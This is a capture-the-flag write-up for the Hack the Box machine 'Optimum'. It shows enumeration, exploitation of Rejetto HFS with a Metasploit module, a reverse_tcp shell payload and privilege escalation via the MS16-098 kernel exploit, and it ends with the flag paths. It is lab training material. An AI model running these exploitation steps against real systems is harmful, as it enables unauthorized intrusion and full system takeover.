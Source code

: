 # Hack the Box - Optimum

##### If you want to go straight to the solution and skip some extra notes skip the first priv. escalation attempt

### Enumeration

First, we do a basic nmap scan: ```nmap -sC -sV -oA NAME 10.10.10.8```. This will scan the service and ports and save the results into whatever we named the file.

Here are the results:

![image](https://user-images.githubusercontent.com/41026969/65069194-2acdf180-d958-11e9-95db-c07b9f66189f.png)

So from the nmap scan, we can see the box involved is running a Windows HTTP File Server with port 80 open. Checking out the main page we don't see much, though on the bottom left there's a box titled ```Server Information``` that can give us some more info:

![image](https://user-images.githubusercontent.com/41026969/65070569-de37e580-d95a-11e9-8552-31ddcf4f811d.png)

Here's the webpage it leads to: ```https://www.rejetto.com/hfs/```. Picture shown below.

![image](https://user-images.githubusercontent.com/41026969/65070704-21925400-d95b-11e9-8a6b-ac4541eba8e4.png)

Here we can see some more information about the service it's running. Look up and researching about ```rejetto HFS server```, I discover there's potentially a metasploit module. So I decided to open up metasploit. 

### Exploitation

Doing a ```search rejetto``` on metasploit reveals there's an exploit module: ```exploit/windows/http/rejetto_hfs_exec```

I then do ```set RHOST 10.10.10.8``` which sets the target IP address. Here's how it looked like:

![image](https://user-images.githubusercontent.com/41026969/65071120-fa885200-d95b-11e9-8af7-0784b05fa47a.png)

When running the module, we get a meterpreter shell!

##### Getting the user flag

Doing ```sysinfo``` reveals the following:

```
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
```

Now we have more information about the box, the version of the OS. 

From meterpreter we can do ```shell``` to get a local shell inside the windows box. Doing ```whoami``` reveals that we are user ```kostas```. Doing a ```dir``` check reveals the user flag:

![image](https://user-images.githubusercontent.com/41026969/65071417-b8134500-d95c-11e9-8fe7-6a19f7d2b435.png)

Since we got a user shell, we need to work on a privilege escalation.

##### Further enumeration - first priv. escalation attempt

You can save your meterpreter session to go back to it later by ```exit``` out of shell, then when you are in the metrepreter terminal, you can enter ```background```

One of the methods to potentially find an exploit now that we got a local shell, is to use the local exploit suggester moduel found on metasploit. You can do ```search suggester``` and the module ```post/multi/recon/local_exploit_suggester``` should pop up. 

Do ```use post/multi/recon/local_exploit_suggester```. And then set the ```SESSION``` to whatever your meterpreter session number was.  When everything is set, do ```run```. Here's a picture of this process shown below:

![image](https://user-images.githubusercontent.com/41026969/66246889-ea0b0200-e6e5-11e9-96a6-6b13be1ab007.png)

Here's a picture of the output:

![image](https://user-images.githubusercontent.com/41026969/66247022-bd0b1f00-e6e6-11e9-9c0f-9e03fb46f486.png)

One of the results show a metasploit module that could potentially work ```exploit/windows/local/ms16_032_secondary_logon_handle_privesc```. 

So I do ```use exploit/windows/local/ms16_032_secondary_logon_handle_privesc``` then I set ```set SESSION 1``` (that's my meterpreter session number)

To have the best chances of success, I want everything to be set on x64 bit architecture. So I need to make sure that the payload, the process we're currently on, and the ```TARGET``` is all set to something that is 64 bit. The process I did is listed below

We need to set the payload to something x64 bit, do ```search reverse_tcp``` and one of the payloads should be ```payload/windows/x64/shell/reverse_tcp```. To set the payload do ```set payload windows/x64/shell/reverse_tcp```. For the payload options, remember to ```set LHOST [YOUR IP]```.

Now we need to make sure the process we're on is a x64 bit process, go back to your session by doing ```session 1``` (or whatever your session number is). Do ```ps``` and one of the processes should be ```explorer.exe``` the left column should be the ```PID``` and that's what we need. On the meterpreter shell, do ```migrate [PID].```

Now we just need to ```set target 1``` to ensure exploit target is Windows x64.

One last check we should do is that in our meterpreter session, we should check if we have all read/write permissions. Doing a ```pwd``` reveals we are in ```C:\Windows\system32``` and we don't have full permissions. Since we are user ```kostas``` we can simply switch to their directory ```C:\Users\kostas\Desktop```.

Now this should work:

![image](https://user-images.githubusercontent.com/41026969/66250920-27d44e80-e717-11e9-87a5-1fc96216a7ec.png)

Unfortunately it doesn't... When I initially did this method, I checked with other sources and noted what they did in their versions of getting admin using metasploit, and they did the same thing, so I decided to try something else:

### A new approach to getting escalated privileges

This time around, I decide to use [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester). Since we have the shell from the earlier meterpreter session, doing ```shell``` and then doing ```systeminfo``` will print out even more information which includes some hotfixes. 

I downloaded the ```windows-exploit-suggester.py``` file from the link above. If you this is the first time using it, you'd need to calibrate it:

1. ```python windows-exploit-suggester.py --update``` (should get an xls or xlsx file)
2. ```pip install xlrd```

Now copy/paste the output from the ```systeminfo``` from above into a .txt file. Also note where the .xls file is from step 1 above.

To run the exploit suggester: ```python windows-exploit-suggester.py --database [path to .xls file] --systeminfo [path to systeminfo .txt file]```. For example, my command looked like this: ```python Windows-Exploit-Suggester/windows-exploit-suggester.py --database Windows-Exploit-Suggester/2019-10-04-mssb.xls --systeminfo htb-optimum/sysinfo.txt```

Running the python program gives us the following result:

![image](https://user-images.githubusercontent.com/41026969/66251086-09238700-e71a-11e9-9eae-ab6eb9846ba9.png)

After some testing and researching about the potential exploits we could use, one I ran into was [MS16-098](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098).

After reading the Usage part of the github linked above, I downloaded the ```bfill.exe``` file. Now, using the meterpreter shell from earlier we need to upload the exe and then run it on the victim's machine:

From the meterpreter session ```upload bfill.exe```. Then after, we simply run it on the windows shell:

![image](https://user-images.githubusercontent.com/41026969/66251221-e1352300-e71b-11e9-8046-c0c433b3bd03.png)

Doing a ```whoami``` shows we are ```nt authority\system```! Box rooted.

### Flags
user: ```C:\Users\kostas\Destop\user.txt.txt```

root: ```C:\Users\Administrator\Desktop\root.txt```
